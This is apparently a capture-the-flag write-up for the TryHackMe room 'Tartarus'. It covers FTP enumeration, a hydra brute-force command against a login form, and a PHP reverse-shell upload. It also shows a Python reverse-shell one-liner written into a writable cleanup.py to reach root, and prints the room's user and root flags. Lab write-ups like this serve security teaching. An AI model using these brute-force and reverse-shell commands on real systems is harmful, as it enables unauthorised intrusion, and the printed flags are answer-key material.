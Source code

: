 # Tartarus

Room: Tartarus

Link: https://tryhackme.com/room/tartaraus

TARGET IP: 10.10.13.146

### SCANNING

  Nmap scan results:
    
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 7.2p2 
    80/tcp open  http    Apache httpd 2.4.18

### ENUMERATION

 ftp anonymous login is allowed and after logging in we go to ... and then again ... directory
 <img src="screenshots/ftplogin.png">
  we get /sUp3r-s3cr3t directory 

 
Go to robots.txt 
  User-Agent: *
  Disallow : /admin-dir

  I told d4rckh we should hide our things deep.
Go to /admin-dir

  Download the files using :
  wget http://10.10.13.146/admin-dir/credentials.txt
  wget http://10.10.13.146/admin-dir/userid
  
  u will get to files
  user id and credentials.txt
  
 There is a login page and we have the userid and credentials.txt file. We can try and bruteforce the login page via hydra.

  use hydra bruteforce /sUp3r-s3cr3t
   
    hydra -L userid -P credentials.txt 10.10.127.236 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"

     HYDRA IMAGE

    After logging in we get into home.php where we can upload files. Upload the script for reverse shell here.

    Start the listener on your machine

    Uploading the reverse shell php script on the page 
    Download the script from here:

    http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

we need to find the uploads directory to run our script
Now we run the directory scan 
 
 So we find the images directory with dirb and here is the upload folder open it and run the script.
 Now we got our reverse shell.

  Go to home/d4rckh 
  You got the user flag! 0f7dbb2243e692e3ad222bc4eff8521f
 
 ### PrivEsc
 Now let's hunt for the root flag. Looking at the permissions of files cleanup.py we find it has write permissions too.
 Lets modify it for privileged reverse shell
     
     printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.18.39",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > cleanup.py

    Also setup a listener port nc -lvnp 5555
 And finally we have our root shell
 <img src="screenshots/rootshell.png">

    Root flag! 
    7e055812184a5fa5109d5db5c7eda7cd

    
